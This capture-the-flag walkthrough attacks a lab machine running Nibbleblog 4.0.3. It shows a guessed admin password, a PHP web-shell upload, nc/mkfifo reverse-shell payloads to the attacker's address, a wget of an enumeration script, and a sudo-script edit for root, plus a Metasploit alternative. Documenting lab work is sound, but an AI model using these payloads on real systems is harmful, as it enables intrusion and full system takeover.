The version of the nibbleblog is `v4.0.3`. A Google search shows that this version is vulnerable and there is an exisiting [Metasploit exploit](https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload/) for it.

Upon visiting `/nibbleblog/admin`, it shows a directory with a few folders:


Upon visiting `/nibbleblog/admin.php`, it shows a login page:


Upon visiting `/nibbleblog/content`, it shows a directory with a few folders:


Upon visiting `/nibbleblog/index.php`, it just shows the original `/nibbleblog` page.

Upon visiting `/nibbleblog/langugages`, `/nibbleblog/plugins` and `/nibbleblog/themes`, it shows similar directory layouts too:




When browsing `/nibbleblog/content`, we chance upon a file called `/nibbleblog/content/private/config.xml`. 

It contains a notification email `admin@nibbles.com`. This might hint that there is an account username called `admin`, which can be used to log in to the website.

There is also another file called `/nibbleblog/content/private/users.xml`, which reveals and confirms our hunch that there is an account username `admin`.


Let's attempt to log in with the username `admin` to the page `/nibbleblog/admin.php`. We guess the password `nibbles`.

## Initial Foothold
We managed to log in to the admin dashboard.


We poke around the admin dashboard and found something interesting under the page `Plugins > My image`. We can browse for images and then upload them to the admin dashboard. Let's see whether we can exploit this and upload a web shell.

We create a file called `test.php` with `vim` and inside it contains a PHP code.
```PHP
<?php system('id'); ?>
```

We upload this file, and then we see that it is stored under `/nibbleblog/content/private/plugins/my_image/test.php`:


Upon clicking on `test.php`, we managed to extract key information:


We get back the information:`uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)`, which can be extracted via `curl` too:
```bash
┌─[eu-academy-5]─[10.10.15.40]─[htb-ac-2300483@htb-7kgvpse5mf]─[~]
└──╼ [★]$ curl http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Now that we know that PHP code injection works, we can use it to open a reverse shell back to our attacking machine. Create a file called `shell.php`, upload it and then `curl` it. However, before doing so, we need to open a `netcat` listener on our attacking machine. Let's choose port number 6767.

- Contents of `shell.php`:
```bash
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.40 6767 >/tmp/f'); ?>
```
- Opening `netcat` listener on our own machine:
```bash
nc -lvnp 6767
```

We have successfully obtained a reverse shell:


Navigating to `/home/nibbler/`, we find a file called `uset.txt` which contains the flag: `79c03865431abf47b90ef24b9695e148`.


## Privilege Escalation
The current user is called `nibbler` which we can confirm with the command `whoami`. The folder `/home/nibbler/` also contains a `personal.zip` file.


We perhaps can use `monitor.sh` to escalate privileges to root. We use the command `sudo -l` to list out all the privileges and we realised that the `nibbler` user can run the file `monitor.sh` file with root privileges without the need for any password.


Let's upload the `linenum.sh` privilege escalation enumeration [script](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) from our attacking machine to the target machine to thoroughly enumerate through all possible vectors.
- Starting Python server on our own attacking machine to serve script
```bash
sudo python3 -m http.server 8080
```
- Download the script on the target machine
```bash
wget http://10.10.15.40:8080/linenum.sh
```
- Make the script executable on the target machine
```bash
chmod +x linenum.sh
```
We then run the script with the command `./linenum.sh`


After scrolling through the script results, we encounter the same `sudo` vulnerability:


Let's edit the `monitor.sh` file and make it contain the following code to start a reverse shell back to our attacking machine's port 6969.

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.40 6969 >/tmp/f' | tee -a monitor.sh
```

We then set up the `netcat` listener on our attacking machine and run the edited `monitor.sh` script as the root user:
```bash
nc -lvnp 6969
```

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

We managed to achieve root access, and we can read `root.txt`:



## Alternative: Metasploit
Alternatively, we can use `msfconsole` to do the automated exploit:
1. Call `msfconsole -q` to activate Metasploit
2. search `nibbleblog` and use `exploit/multi/http/nibbleblog_file_upload`
3. `set LHOST 10.10.15.40`, `set RHOST 10.129.153.63`, `set TARGETURI /nibbleblog/`, `set USERNAME admin`, `set PASSWORD nibbles`
4. Run `exploit` and a meterpreter opens for the `nibbler` user.
5. Privilege escalate like in previous section.

